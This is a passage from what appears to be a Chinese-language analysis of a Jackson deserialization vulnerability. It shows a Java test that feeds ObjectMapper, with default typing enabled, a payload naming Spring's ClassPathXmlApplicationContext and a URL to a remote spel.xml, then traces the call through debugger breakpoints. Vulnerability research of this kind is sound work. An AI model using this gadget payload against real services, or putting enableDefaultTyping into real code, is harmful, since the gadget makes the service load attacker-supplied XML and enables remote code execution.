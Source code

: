 测试调用类：

```java
    public static void testSpringFramework(){
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
                "\"http://127.0.0.1:8000/spel.xml\"]\n";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

直接在com.fasterxml.jackson.databind.ObjectMapper#readValue(java.lang.String, java.lang.Class<T>)处下断点，进行调试

这里会通过com.fasterxml.jackson.databind.deser.BeanDeserializer#deserialize(com.fasterxml.jackson.core.JsonParser, com.fasterxml.jackson.databind.DeserializationContext)

![image-20211120224342345](img/Jackson反序列化漏洞.assets/image-20211120224342345.png)

进入到com.fasterxml.jackson.databind.deser.BeanDeserializer#_deserializeOther
